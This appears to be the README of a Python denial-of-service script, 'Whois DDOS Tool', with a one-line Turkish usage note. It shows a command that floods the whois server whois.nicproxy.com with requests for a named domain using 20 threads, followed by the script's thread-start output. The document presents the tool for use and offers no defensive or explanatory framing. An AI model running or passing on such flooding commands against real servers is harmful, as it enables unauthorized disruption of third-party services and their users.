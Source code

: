  
Whois DDOS Tool
----------------

Betik asagidaki sekilde calistirilmaktadir.

./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
0 : thread is started ...
1 : thread is started ...
2 : thread is started ...
3 : thread is started ...
4 : thread is started ...
5 : thread is started ...
6 : thread is started ...
7 : thread is started ...
8 : thread is started ...
9 : thread is started ...
10 : thread is started ...
11 : thread is started ...
12 : thread is started ...
13 : thread is started ...
14 : thread is started ...
15 : thread is started ...
16 : thread is started ...
17 : thread is started ...
18 : thread is started ...
19 : thread is started ...
